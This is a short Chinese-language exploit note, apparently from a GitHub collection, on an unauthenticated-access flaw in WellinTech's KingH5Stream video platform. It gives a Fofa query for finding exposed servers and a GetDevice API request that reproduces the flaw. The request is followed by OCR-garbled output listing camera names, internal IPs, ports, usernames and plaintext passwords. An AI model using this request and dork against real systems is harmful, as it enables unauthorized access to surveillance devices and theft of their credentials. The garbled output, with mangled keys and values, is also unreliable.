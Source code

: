# K8-4北京亚控科技发展有限公司KingH5Stream未授权漏洞

<u></u>





### 漏洞描述：北京亚控科技发展有限公司KingH5Stream未授权漏洞



### Fofa语句：title="KingH5Stream"



### 漏洞复现：

```
https://172.0.0.1:8443/api/v1/GetDevice?getonline=true&session=3db6e64e-eb7f-413d-9fe0-415c79f1b6f1GetDevice](https://172.0.0.1:8443/api/v1/GetDevice?getonline=true&session=3db6e64e-eb7f-413d-9fe0-415c79f1b6f1GetDevice

显示内容如下：
"nTyPe": "HS JEV.HK"
"strham”;“xxx内球机”
"strToken"; "0lfb .
"atrueer": "asin".
"aurPassd": "gldx123456"
"bPassndEecrrp!": falst.
"atrDovlplddress": “172 16.8. 1?".
"uurDorPort": "8000".
"bpmnblchwiio": fuls.
"bCenlralkecord": falst.
"bomlime": true
"nTTDO":"HS BEY HIK".
"atrhamoa”:“xxxx球机”。
"atrTokon": "0631".
strlser":"eanin".
"mtrPasoed': "aldn123456".
biasndcrpt ; fa1s4,
```

